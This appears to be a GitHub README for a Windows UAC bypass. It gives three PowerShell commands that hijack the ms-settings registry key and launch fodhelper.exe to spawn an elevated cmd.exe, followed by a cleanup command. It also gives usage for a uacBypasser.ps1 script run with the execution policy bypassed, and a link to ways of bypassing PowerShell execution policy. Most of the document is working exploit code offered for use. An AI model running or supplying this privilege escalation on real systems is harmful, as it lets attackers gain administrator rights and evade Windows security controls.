 # Bypass Windows UAC Technique

## Bypass UAC with 3 Commands
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

![alt text](poc/poc.gif)

## PoC of uacBypasser.ps1

![alt text](poc/pocScript.png)

Usage: 
```
1) input the commands to execute in the batch script
2) powershell.exe -executionpolicy bypass -file .\uacBypasser.ps1 <batch script location>
```
### Tips to bypass ExecutionPolicy in powershell can refer to the link below

```
https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```